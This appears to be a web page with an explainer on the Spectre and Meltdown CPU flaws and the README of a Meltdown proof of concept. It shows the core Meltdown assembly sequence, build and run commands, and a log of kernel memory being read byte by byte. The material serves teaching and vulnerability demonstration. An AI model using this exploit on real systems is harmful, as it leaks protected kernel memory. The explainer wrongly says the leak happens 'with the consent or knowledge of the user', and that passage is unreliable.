 INTEL PROCESSOR SPECTRE MELTDOWN EXPLOIT SOURCE CODE -  Spectre-Meltdown.c

Spectre breaks the isolation between different applications. It allows an attacker to trick error-free programs, which follow best practices, into leaking their secrets. In fact, the safety checks of said best practices actually increase the attack surface and may make applications more susceptible to Spectre

Spectre is slightly different from Meltdown. This is so because it can allow hackers to fool the applications (even the stable versions of the respective application) running on a machine to give up secret information from the Kernal module of the operating system to the hacker with the consent or knowledge of the user.

The Intel Processor core instruction sequence of Meltdown: -

; rcx = kernel address

; rbx = probe array

retry:

mov al, byte [rcx]

shl rax, 0xc

jz retry

mov rbx, qword [rbx + rax]

Meltdown breaks the most fundamental isolation between user applications and the operating system. This attack allows a program to access the memory, and thus also the secrets, of other programs and the operating system.

This vulnerability would allow malicious attacks to take place when a hacker could break the differentiating factor between the applications run by the user and the Core Memory of the Computer.



2. # MELTDOWN EXPLOIT 

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Refer to the paper by Lipp et. al 2017 for details: https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`.

Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo awk 
	/linux_proc_banner/ {
		if (strtonum("0x"$1))
			print $1;
		exit 0;
	} /proc/kallsyms
+ linux_proc_banner=ffffffffa3e000a0
+ set +x
cached = 29, uncached = 271, threshold 88
read ffffffffa3e000a0 = 25 %
read ffffffffa3e000a1 = 73 s
read ffffffffa3e000a2 = 20  
read ffffffffa3e000a3 = 76 v
read ffffffffa3e000a4 = 65 e
read ffffffffa3e000a5 = 72 r
read ffffffffa3e000a6 = 73 s
read ffffffffa3e000a7 = 69 i
read ffffffffa3e000a8 = 6f o
read ffffffffa3e000a9 = 6e n
read ffffffffa3e000aa = 20  
read ffffffffa3e000ab = 25 %
read ffffffffa3e000ac = 73 s
read ffffffffa3e000ad = 20  
read ffffffffa3e000ae = 28 (
read ffffffffa3e000af = 62 b
read ffffffffa3e000b0 = 75 u
read ffffffffa3e000b1 = 69 i
read ffffffffa3e000b2 = 6c l
read ffffffffa3e000b3 = 64 d
read ffffffffa3e000b4 = 64 d
read ffffffffa3e000b5 = 40 @
VULNERABLE
VULNERABLE ON
4.10.0-42-generic #46~16.04.1-Ubuntu SMP Mon Dec 4 15:57:59 UTC 2017 x86_64
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3499.316
cache size	: 6144 KB
physical id	: 0
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```


